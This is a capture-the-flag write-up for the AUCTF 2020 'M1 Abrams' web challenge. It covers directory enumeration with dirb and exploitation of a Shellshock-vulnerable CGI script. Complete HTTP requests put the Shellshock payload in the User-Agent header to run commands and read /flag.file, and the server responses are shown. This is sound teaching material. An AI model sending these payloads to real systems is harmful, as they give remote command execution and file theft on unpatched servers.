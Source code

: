 # AUCTF 2020 – M1 Abrams

* **Category:** web
* **Points:** 977

## Challenge

> http://challenges.auctf.com:30024
> 
> We built up this server, and our security team seems pretty mad about it. See if you can find out why.
> 
> Author: shinigami

## Solution

Connecting to the URL you will find a default Apache2 installation page. The version of the server is `Apache/2.4.29 (Ubuntu)`.

Performing an enumeration will let you to discover the following.

```
user@machine:~$ sudo dirb http://challenges.auctf.com:30024/ /usr/share/dirb/wordlists/vulns/apache.txt -x /usr/share/dirb/wordlists/extensions_common.txt -w

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Sun Apr  5 11:32:26 2020
URL_BASE: http://challenges.auctf.com:30024/
WORDLIST_FILES: /usr/share/dirb/wordlists/vulns/apache.txt
OPTION: Not Stopping on warning messages
EXTENSIONS_FILE: /usr/share/dirb/wordlists/extensions_common.txt | ()(.asp)(.aspx)(.bat)(.c)(.cfm)(.cgi)(.com)(.dll)(.exe)(.htm)(.html)(.inc)(.jhtml)(.jsa)(.jsp)(.log)(.mdb)(.nsf)(.php)(.phtml)(.pl)(.reg)(.sh)(.shtml)(.sql)(.txt)(.xml)(/) [NUM = 29]

-----------------

GENERATED WORDS: 30

---- Scanning URL: http://challenges.auctf.com:30024/ ----
+ http://challenges.auctf.com:30024/cgi-bin/ (CODE:403|SIZE:288)
+ http://challenges.auctf.com:30024/icons/ (CODE:403|SIZE:288)
+ http://challenges.auctf.com:30024/index.html (CODE:200|SIZE:10918)
+ http://challenges.auctf.com:30024/server-status (CODE:403|SIZE:288)
+ http://challenges.auctf.com:30024/server-status/ (CODE:403|SIZE:288)

-----------------
END_TIME: Sun Apr  5 11:33:49 2020
DOWNLOADED: 870 - FOUND: 5
```

Analyzing `cgi-bin/` directory will let you to discover an interesting endpoint.

```
user@machine:~$ sudo dirb http://challenges.auctf.com:30024/cgi-bin/ -w

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Sun Apr  5 12:04:05 2020
URL_BASE: http://challenges.auctf.com:30024/cgi-bin/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Not Stopping on warning messages

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://challenges.auctf.com:30024/cgi-bin/ ----
+ http://challenges.auctf.com:30024/cgi-bin/scriptlet (CODE:200|SIZE:55)

-----------------
END_TIME: Sun Apr  5 12:10:22 2020
DOWNLOADED: 4612 - FOUND: 1
```

Connecting to `http://challenges.auctf.com:30024/cgi-bin/scriptlet` will give you the following.

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The scriptlet is vulnerable to [*Shellshock*](https://en.wikipedia.org/wiki/Shellshock_(software_bug)).

```
GET /cgi-bin/scriptlet HTTP/1.1
Host: challenges.auctf.com:30024
User-Agent: () { :;};echo -e "\r\n$(/usr/bin/whoami)"
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 0

HTTP/1.1 200 OK
Date: Sun, 05 Apr 2020 12:16:07 GMT
Server: Apache/2.4.29 (Ubuntu)
Connection: close
Content-Length: 89

www-data
Content-type: text/html


uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

So you can use it to enumerate the root directory to find `flag.file`.

```
GET /cgi-bin/scriptlet HTTP/1.1
Host: challenges.auctf.com:30024
User-Agent: () { :;};echo -e "\r\n$(/bin/ls /)"
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 0

HTTP/1.1 200 OK
Date: Sun, 05 Apr 2020 12:19:24 GMT
Server: Apache/2.4.29 (Ubuntu)
Connection: close
Content-Length: 175

bin
boot
dev
etc
flag.file
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
Content-type: text/html


uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

And then print it.

```
GET /cgi-bin/scriptlet HTTP/1.1
Host: challenges.auctf.com:30024
User-Agent: () { :;};echo -e "\r\n$(/bin/cat /flag.file)"
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 0

HTTP/1.1 200 OK
Date: Sun, 05 Apr 2020 12:20:01 GMT
Server: Apache/2.4.29 (Ubuntu)
Connection: close
Content-Length: 194

1f8b0808de36755e0003666c61672e747874004b2c4d2e49ab56c9303634
8c0fce30f08ecf358eaf72484989ace502005a5da5461b000000
Content-type: text/html


uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The content of the file is the hexadecimal representation of a GZip archive (i.e. signature `1f8b08`).

This [file](flag.gz) can be re-created with an hexadecimal editor. If you open the archive you will find the `flag.txt` file with the flag.

```
auctf{$h311_Sh0K_m3_z@ddY}
```